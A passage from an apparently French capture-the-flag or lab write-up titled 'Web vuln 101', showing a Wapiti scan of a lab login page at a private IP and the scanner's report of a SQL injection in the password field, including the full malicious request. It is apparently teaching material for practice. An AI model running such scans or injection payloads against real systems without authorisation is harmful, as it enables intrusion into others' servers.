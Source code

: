## Web vuln 101

On débarque sur la page web de `Nakimura Industries Production Server`.

Il y a un formulaire de login présent. Je lance tout de suite Wapiti qui me trouve une faille SQL :

```bash
$ wapiti -u http://192.168.242.135/ -v2 --color
ujson module not found, using json

     __    __            _ _   _ _____
    / / /\ \ \__ _ _ __ (_) |_(_)___ /
    \ \/  \/ / _` | '_ \| | __| | |_ \
     \  /\  / (_| | |_) | | |_| |___) |
      \/  \/ \__,_| .__/|_|\__|_|____/
                  |_|                 
Wapiti 3.1.4 (wapiti-scanner.github.io)
[+] GET http://192.168.242.135/ (0)
[+] GET http://192.168.242.135/?page=login.php (1)
[+] GET http://192.168.242.135/index.php (1)
[+] POST http://192.168.242.135/index.php?page=login.php (2)
        data: user_name=alice&password=Letm3in_&Submit_button=Submit
[+] GET http://192.168.242.135/index.php?page=login.php (2)
[*] Saving scan state, please wait...
[*] Wapiti found 5 URLs and forms during the scan
[*] Existing modules:
         backup, brute_login_form, buster, cookieflags, crlf, csp, csrf, drupal_enum, exec, file, htaccess, htp, http_headers, log4shell, methods, nikto, permanentxss, redirect, shellshock, sql, ssl, ssrf, takeover, timesql, wapp, wp_enum, xss, xxe
--- snip ---
[*] Launching module sql
--- snip ---
---
SQL Injection (DBMS: MySQL) in http://192.168.242.135/index.php via injection in the parameter password
Evil request:
    POST /index.php?page=login.php HTTP/1.1
    host: 192.168.242.135
    connection: keep-alive
    user-agent: Mozilla/5.0 (Windows NT 6.1; rv:45.0) Gecko/20100101 Firefox/45.0
    accept-language: en-US
    accept-encoding: gzip, deflate, br
    accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
    content-type: application/x-www-form-urlencoded
    referer: http://192.168.242.135/?page=login.php
    content-length: 69
    Content-Type: application/x-www-form-urlencoded

    user_name=alice&password=Letm3in_%C2%BF%27%22%28&Submit_button=Submit
---
```
